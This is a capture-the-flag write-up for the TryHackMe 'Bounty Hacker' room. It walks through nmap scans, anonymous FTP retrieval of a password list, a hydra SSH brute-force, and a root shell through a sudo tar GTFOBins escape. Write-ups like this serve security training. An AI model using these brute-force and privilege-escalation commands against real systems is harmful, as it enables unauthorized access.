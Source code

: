 ```yaml
---
title: "Bounty Hacker"
date: 2025-01-22
image: /assets/img/tryhackme/BountyHacker/BountyHacker_image.jpg
description: You talked a big game about being the most elite hacker in the solar system. Prove it and claim your right to the status of Elite Bounty Hacker!
categories: [Tryhackme, Easy]
tags: [linux, web, ssh, hydra, bruteforce, privesc]
---
```


## Challenge Description
<center>
<table>
  <tr>
    <td>Plattform</td>
    <td>TryHackMe</td>
  </tr>
  <tr>
    <td>Name</td>
    <td>Bounty Hacker</td>
  </tr>
  <tr>
    <td>Description</td>
    <td>You talked a big game about being the most elite hacker in the solar system. Prove it and claim your right to the status of Elite Bounty Hacker!</td>
  </tr>
  <tr>
    <td>Difficulty</td>
    <td>Easy</td>
  </tr>
  <tr>
    <td>OS</td>
    <td>Linux</td>
  </tr>
  <tr>
    <td>Link</td>
    <td><a href="https://tryhackme.com/r/room/cowboyhacker">https://tryhackme.com/r/room/cowboyhacker</a></td>
  </tr>
</table>
</center>

This writeup is a possible solution of the CTF-challenge Bounty Hacker

## Enumeration
I started the enumeration using nmap:
```bash
$ nmap 10.10.66.27
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-01-22 04:25 EST
Nmap scan report for 10.10.66.27
Host is up (0.040s latency).
Not shown: 967 filtered tcp ports (no-response), 30 closed tcp ports (conn-refused)
PORT   STATE SERVICE
21/tcp open  ftp
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 3.89 seconds
```
and enumerated the services nmap found in more depth using the `-A` flag:
```bash
$ nmap -A -p 21,22,80 10.10.66.27
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-01-22 04:27 EST
Nmap scan report for 10.10.66.27
Host is up (0.039s latency).

PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: TIMEOUT
| ftp-syst:
|   STAT:
| FTP server status:
|      Connected to ::ffff:10.21.63.26
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 4
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 dc:f8:df:a7:a6:00:6d:18:b0:70:2b:a5:aa:a6:14:3e (RSA)
|   256 ec:c0:f2:d9:1e:6f:48:7d:38:9a:e3:bb:08:c4:0c:c9 (ECDSA)
|_  256 a4:1a:15:a5:d4:b1:cf:8f:16:50:3a:7d:d0:d8:13:c2 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.18 (Ubuntu)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 37.20 seconds
```
from here I analyzed the services one after another

## FTP Analysis
As we can see in the nmap output the ftp server allow anonymous access. Therefore I trief to access the service

```bash
$ ftp anonymous@10.10.59.122
Connected to 10.10.59.122.
220 (vsFTPd 3.0.3)
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
229 Entering Extended Passive Mode (|||14671|)
```
It took me a while to actually see the files because of many timeouts. Thats why I switched to Filezilla which automatically try to reconnect. After some time I was able to download the following files:
```bash
$ cat task.txt
1.) Protect Vicious.
2.) Plan for Red Eye pickup on the moon.

-lin

$ cat locks.txt
rEddrAGON
ReDdr4g0nSynd!cat3
Dr@gOn$yn9icat3
R3DDr46ONSYndIC@Te
ReddRA60N
R3dDrag0nSynd1c4te
dRa6oN5YNDiCATE
ReDDR4g0n5ynDIc4te
R3Dr4gOn2044
RedDr4gonSynd1cat3
R3dDRaG0Nsynd1c@T3
Synd1c4teDr@g0n
reddRAg0N
REddRaG0N5yNdIc47e
Dra6oN$yndIC@t3
4L1mi6H71StHeB357
rEDdragOn$ynd1c473
DrAgoN5ynD1cATE
ReDdrag0n$ynd1cate
Dr@gOn$yND1C4Te
RedDr@gonSyn9ic47e
REd$yNdIc47e
dr@goN5YNd1c@73
rEDdrAGOnSyNDiCat3
r3ddr@g0N
ReDSynd1ca7e
```
As we can see we got a potential username and probably a password list.

## HTTP Analysis
I analyzed the source code, performed enumeration and tried steganography techniques on all the images without getting anything.

## SSH Analysis
With the given username and the potential password list, I tried to brute force the ssh login using `hydra`
```bash
$ hydra -l lin -P locks.txt ssh://10.10.59.122
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-01-22 04:43:05
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 26 login tries (l:1/p:26), ~2 tries per task
[DATA] attacking ssh://10.10.59.122:22/
[22][ssh] host: 10.10.59.122   login: lin   password: [removed]
```
Hydra found a valid credentails, which allowed me to login in and retrieve the user flag.
```bash
$ ssh lin@10.10.59.122
lin@bountyhacker:~/Desktop$ hostname
bountyhacker
lin@bountyhacker:~/Desktop$ cat user.txt
THM{*** removed ***}
```
## Privilege Escalation
For the root flag we need to escalate our privileges. I hab success by executing `sudo -l`
```bash
$ sudo -l
[sudo] password for lin:
Matching Defaults entries for lin on bountyhacker:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User lin may run the following commands on bountyhacker:
    (root) /bin/tar
```
A quick search in <a href="https://gtfobins.github.io/gtfobins/tar/#shell">gftobins</a> gave me all I needed:
```bash
lin@bountyhacker:~/Desktop$ sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
tar: Removing leading `/' from member names
# cd /root
# cat root.txt
THM{*** removed ***}
```

solved! :)
